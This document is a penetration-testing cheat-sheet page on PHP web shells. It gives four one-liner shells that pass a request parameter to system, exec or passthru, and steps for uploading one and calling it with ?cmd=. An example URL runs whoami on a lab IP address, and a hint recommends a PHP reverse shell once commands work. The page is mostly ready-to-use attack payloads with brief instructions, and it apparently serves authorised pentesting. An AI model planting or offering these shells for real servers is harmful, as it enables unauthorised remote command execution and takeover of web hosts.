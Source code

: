 # 🕸️ Webshells

## PHP

### One Liners

```
<?php echo passthru($_GET['cmd']); ?>

<?php echo exec($_POST['cmd']); ?>

<?php system($_GET['cmd']); ?>

<?php passthru($_REQUEST['cmd']); ?>
```

{% hint style="info" %}
Upload the php file in the webpage and request the uploaded file using the php file path with `?cmd= parameter`
{% endhint %}

```
http://10.0.160.56:1337/public/m.php?cmd=whoami
```

{% hint style="info" %}
If the response returns server username then you can get a reverse shell using [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
{% endhint %}





***

## REFERENCES

* [https://www.hackingarticles.in/web-shells-penetration-testing/](https://www.hackingarticles.in/web-shells-penetration-testing/)
* [https://github.com/JohnTroony/php-webshells](https://github.com/JohnTroony/php-webshells)
* [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

